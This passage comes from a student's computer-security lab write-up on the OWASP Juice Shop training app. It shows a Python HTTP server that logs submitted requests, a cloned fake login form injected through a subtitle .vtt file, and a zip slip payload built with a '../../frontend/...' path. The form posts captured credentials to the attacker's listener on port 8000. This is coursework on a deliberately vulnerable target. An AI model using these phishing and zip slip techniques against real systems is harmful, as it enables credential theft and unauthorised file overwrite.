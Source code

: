 ```python
        self.do_log("PUT")

    def do_DELETE(self):
        self.do_log("DELETE")

def run(
, port, server_class=HTTPServer, handler_class=S):
    logging.basicConfig(level=logging.INFO)
    server_address = (address, port)
    httpd = server_class(server_address, handler_class)
    logging.info('Starting server...\n')
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()
    logging.info('Stopping server...\n')

if __name__ == '__main__':
    if len(sys.argv) != 3:
        print("Usage:\n" + sys.argv[0] + " [address] [port]")
        sys.exit(1)

    run(sys.argv[1], int(sys.argv[2]))
```

The Python script takes in address and port as arguments when ran. The address can simply be an empty string `""`, and the port should be `8000` to match the target port of the attack:

![image](https://user-images.githubusercontent.com/71127573/191077018-c51b03f2-271c-4e96-8ce4-ba466161e35c.png)


To make the faux log in form look like the real one, I simply copied the whole HTML code from the original login page, including all the imports from the `<head>`. Some things were off slightly too much, so I added some CSS. The file starts with a `</script>` tag, and the JavaScript at the end of the file to hide the video starts with a `<script>` tag but doesn't end with a `</script>` tag because it gets injected to the place where the subtitles would be.

The HTML/JavaScript I is smuggled to the `/promotion` page is uploaded here in this repository: 

https://github.com/CompSec-2022/computer-security-521155s-2022-returns-VilleKylmamaa/blob/master/Lab2Template/JuiceShopJingle.vtt

I am not pasting it here because of its length. It's not perfect, but quite good for a quick work:

![image](https://user-images.githubusercontent.com/71127573/191071652-feb42ece-4950-4703-a33a-90d5c6c8a0fd.png)

The form is set up to send a POST request containing the input data from the form to localhost port 8000: `<form action="http://0.0.0.0:8000/" method="post" ...`, where the Python server is running.



To exploit the zip slip vulnerability, I set the file in the folder `../../frontend/dist/frontend/assets/public/videos/JuiceShopJingle.vtt`, and then turned it into a zip file by running `sudo zip payload.zip ../../frontend/dist/frontend/assets/public/videos/JuiceShopJingle.vtt` in the terminal:
